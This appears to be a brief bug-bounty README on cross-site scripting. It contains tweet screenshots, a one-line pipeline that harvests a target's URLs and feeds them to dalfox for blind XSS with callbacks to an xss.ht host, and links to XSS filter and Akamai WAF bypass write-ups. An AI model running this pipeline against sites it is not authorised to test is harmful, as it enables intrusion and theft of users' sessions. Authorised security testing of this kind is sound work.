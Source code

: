 <h1 align="center">XSS --> Cross Site Scripting</h1>

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="center" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   echo Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```


https://www.cyberick.com/post/xss-payload-filter-bypass-by-xploiterr

https://infosecwriteups.com/how-i-was-able-to-bypass-strong-xss-protection-in-well-known-website-imgur-com-8a247c527975


<h3>Akamai WAF bypass</h3> https://twitter.com/xhzeem/status/1377992310974218245
